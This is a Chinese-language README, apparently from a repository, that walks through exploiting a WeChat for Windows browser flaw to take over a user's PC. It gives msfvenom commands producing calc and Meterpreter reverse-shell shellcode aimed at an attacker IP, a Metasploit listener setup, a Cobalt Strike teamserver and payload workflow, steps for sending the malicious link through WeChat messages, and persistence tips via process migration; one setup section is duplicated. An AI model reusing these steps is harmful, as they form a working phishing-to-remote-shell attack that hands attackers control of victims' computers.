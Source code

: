 



# WeChat 0day

## 漏洞介绍

攻击者可以通过在网页js插入攻击代码，用户一旦点击链接，Windows版微信便会加载执行攻击者构造恶意代码，最终使攻击者控制用户PC。攻击者可以利用此漏洞执行任意代码，控制用户PC，存在极大的危害。

## 影响范围

Windows版微信: 小于等于3.2.1.141版本

## 漏洞复现过程

测试环境：

靶机

IP：192.168.43.130

Windows 10 x64

微信 3.2.1.134

其他版本不确定是否可以，请自测。

[微信历史版本下载](http://www.mydown.com/soft/103/473305603.shtml)

攻击机

IP：192.168.43.232

MacBookPro MacOS Big Sur 版本 11.2.3

Cobalt Strike 4.2

## 1. 执行系统命令

### 1.1 生成shellcode代码

#### 弹出计算器的shellcode生成命令：

```
msfvenom -a x86 -p windows/exec CMD="calc" EXITFUNC=thread -f num
```

*(这里说明一下，如下图，微信进程wechatweb.exe默认关闭沙盒，Chrome版本是53.0.2875.166，运行在x86架构上，故生成payload时须指定为x86架构)*

![image-20210419220004697]($imgs/image-20210419220004697.png)

### 1.2 制作html钓鱼文件

将生成的代码放入WeChat.js中shellcode[]中。

![image-20210419221432458]($imgs/image-20210419221432458.png)

在攻击机当前目录下用python或kali自带的apache2开启一个http服务。

python3.x版本：

```
python3 -m http.server 80
```

python2.x版本：

```
python -m SimpleHttpServer 80
```

apache2

```
sudo systemctl start apache2
```

将以下链接发到微信消息中，并使用微信内置的浏览器打开，可以看到已经成功执行计算器命令。

http://192.168.43.232/WeChat.html

![image-20210419220935481]($imgs/image-20210419220935481.png)



## 2. 利用Metasploit反弹shell

### 2.1 shellcode生成命令：

```msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.43.232 LPORT=5555 -e x86/shikata_ga_nai -b "\x00" -i 15 -f num -o payload.c```

**注意：LHOST要和自己本机ip保持一致，LPORT要和接下来监听的端口也保持一致**

将生成的payload.c文件中全部内容填入WeChat.js中shellcode[]里。

![image-20210419224510744]($imgs/image-20210419224510744.png)

### 2.2 msfconsole监听

执行命令：

```
msfconsole

msf6>use exploit/multi/handler

msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > set LHOST 192.168.43.232

msf6 exploit(multi/handler) > set LPORT 5555

msf6 exploit(multi/handler) > run

```

### 2.3 反弹shell

将以下链接发到微信消息中，并使用微信内置的浏览器打开，可以看到已经成功反弹shell。

http://192.168.43.232/WeChat.html

<img src="$imgs/image-20210419224819886.png" alt="image-20210419224819886" style="zoom:50%;" />

![image-20210419224724224]($imgs/image-20210419224724224.png)

## 3. 利用Cobalt Strike 上线

### 2.1 Cobalt Strike开启监听

**2.1.1 启动服务端：**

```
sudo ./teamserver 192.168.43.232 1234
```

![image-20210419204459251]($imgs/image-20210419204459251.png)

出现以上页面说明启动成功。

**2.1.2 启动客户端：**

### <img src="$imgs/image-20210419204751453.png" alt="image-20210419204751453" style="zoom: 50%;" />

### 2.1 Cobalt Strike开启监听

**2.1.1 启动服务端：**

```
sudo ./teamserver 192.168.43.232 1234
```

![image-20210419204459251]($imgs/image-20210419204459251.png)

出现以上页面说明启动成功。

**2.1.2 启动客户端：**

<img src="$imgs/image-20210419204751453.png" alt="image-20210419204751453" style="zoom:50%;" />

**2.1.3 启动监听器：**

![image-20210419225513410]($imgs/image-20210419225513410.png)

### 2.2 Cobalt Strike生成payload

**2.2.1 按照以下步骤生成payload.c文件，注意这里不勾选x64，因为微信进程试运行在x86架构上的。**

<img src="$imgs/image-20210419230142555.png" alt="image-20210419230142555" style="zoom:50%;" />

![image-20210419230351333]($imgs/image-20210419230351333.png)

**2.2.2 用notepad++打开payload.c文件，ctrl+H替换"\\"为",0"，点击全部替换。**

![image-20210419230559917]($imgs/image-20210419230559917.png)

**2.2.3 将引号里的代码复制到WeChat.js文件的shellcode[]中，注意：shellcode[]没有换行，包括所有代码都是在一行的。**

![image-20210419230813043]($imgs/image-20210419230813043.png)



**2.2.4 将以下链接发到微信消息中，并使用微信内置的浏览器打开，可以看到已经成功反弹shell。**

**http://192.168.43.232/WeChat.html**

![image-20210419231021319]($imgs/image-20210419231021319.png)

**2.2.5 查看Cobalt Strike 即可上线成功，进入beacon，可以执行命令等等。

![image-20210419231230251]($imgs/image-20210419231230251.png)

## 写在最后

都说这个漏洞比较鸡肋，必须保证微信内置浏览器一直打开状态才不会掉线，如果把它关闭就会直接掉线。不过看到大佬写得一篇博客：“关于微信内置浏览器 达到持久控制”，可以解决上述问题：

1*. 加载自定义 malleable C2 配置文件 从而达到主机一上线跳默认为 1 秒，就可自动在目标打开浏览器短暂的时间里尽快转移进程*

*2. 加载一个 Cobalt Strike automigrate 自动迁移进程的插件从而达到目标上线后会话自动迁移到其他进程从而我们就可以脱离微信浏览器的束缚。*

由于文章可能比较敏感，该篇博客已被删除，幸好我留了一手，保存了网页，具体的操作可以参考我保存的网页，下载到本地用浏览器打开"关于微信内置浏览器 达到持久控制 _ Liqun.html"，即可看到，我试了一下，可以成功，感兴趣的朋友也可以尝试一下。



**至此WeChat-0day复现完成，仅供参考，严禁非法破坏他人系统，严格遵守《中华人民共和国网络安全法》，如有违反，后果自负，与作者无关。**

